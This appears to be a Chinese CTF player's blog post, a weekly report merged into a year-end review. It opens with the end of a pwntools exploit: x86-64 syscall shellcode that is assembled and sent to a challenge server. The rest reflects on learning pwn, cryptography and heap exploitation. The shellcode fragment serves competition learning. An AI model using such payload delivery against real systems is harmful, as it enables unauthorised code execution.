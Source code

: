 ```assembly
	mov r10, 2
	xor r9, r9
	call do_syscall
	mov rsi, rax
	mov rax, 1
	mov rdi, 1
	mov rdx, 100
	call do_syscall
do_syscall:
	syscall
	ret

'''
payload=asm(pay1,arch="amd64")
r.send(payload)
r.interactive()
```

![heaven0](C:\Users\POI\Desktop\周报\周报08(年报)\heaven0.png)

成功打通线下.

#### 2:年度总结(年报)

由于我在回家以后再一次被感冒肘晕在地,所以这周除了打西湖论剑和春秋杯以外,没有什么实质性的进展.(然后打上吊瓶以后几乎是一天以内就恢复了健康,再一次证明了有病就去医院的重要性)

于是为了防止这篇周报内容太少,我干脆把它缝到年报前面,等过年那段时间再抽空补点内容出来.

##### 那么今年我都干了点啥?

1. 把pwn的进度勉强碰到了堆,
2. 密码方面,流密码快看完了(补进度ing)
3. 稍微了解了一点逆向
4. ~~成功证明了感冒病毒能在每个月变异出至少一种可以绕过已有免疫识别的毒株~~

听起来似乎没什么,~~事实上的确如此~~但如果把我今年做的事一件件拉一个清单的话,还是能水不少字数的(实在不行可以把知识库里看过的东西一个个复制过来).但那样又累又麻烦,而且对我打ctf没有任何实质性的帮助,还不如去坐白毛子的赛博大牢.所以让我们直接跳过这个大家都不喜欢的环节.

##### 那么我有什么心得体会?

在跳过了一个大家都不喜欢的环节之后,我们迎来了又一个大家都不喜欢的环节.至少我一直对这种事深恶痛绝:在高中的某场大考(一般是期中/期末后)后,老师在班会课上把考的比较好的几个同学叫上讲台,让他们分享心得体会.这种事自然是飞来横祸,毕竟这种场合可不能讲什么"我视力比较好".不过好在ctf不能靠"视力比较好"抄到别人的flag(还是近源渗透大佬.jpg),所以我还是能讲出点东西的.

###### 1:关于知识体系

许多游戏都会有"科技树"或者"技能树"一类的概念,而我们并不为它们感到奇怪.因为它们的逻辑的确符合我们的直觉:你得先学会说话,然后才是阅读,写作,上学,落榜,演讲和发动二战.所以为了降低学习的难度,构建起一个相对完整的知识体系相当重要.

那么接下来,按照议论文的一般结构,我得讲如何构建一个相对完整的知识体系了.但是很可惜,我没有了解过教育学的相关知识.所以我也只能谈谈个人感想.

就我个人而言,我最开始(准确的说,是新生赛时)感兴趣的方向是密码,后来还加上了pwn.而不是大家都喜欢的misc和web.我想这和我初中时打OI的经历分不开干系.对我来说,那些代码是"熟悉"的,毕竟这种东西在CSP已经评鉴的够多了.而misc,web反而是"陌生"的.于是我自然而然的选择了"熟悉"的东西.在我安装了pwntool库之后,我做出来的第一道pwn题目是算100道小学数学题并提交的那道题目.因为那道题给了题目要求,输入,并让我把ans提交给评测机----这不就是oi嘛(迫真).后面栈相关内容的学习也较为顺利,直到堆给了我迎头痛击.

如果从概念的角度来看的话,oi里接触到的栈和ctf里所说的栈不能说是一模一样吧,只能说是天差地别.但好歹ctf里碰到的栈的确是个栈,所以我对它还有一个基本的概念.而堆则完全不同,它即使在数据结构上也和堆扯不上半点关系.于是,堆对我来说就成为了知识体系中一个孤悬于我所有现有知识以外,但又不得不去学习的一个点.起初我的做法是直接看对应的知识点.这在unlink这样的逻辑上简单的攻击方式中还能起到一定成效,可到了稍微复杂一点的house of系列时,对malloc源码的一无所知就成为了一个巨大的阻碍.无论如何,我决定在寒假抽时间缓解这个问题.
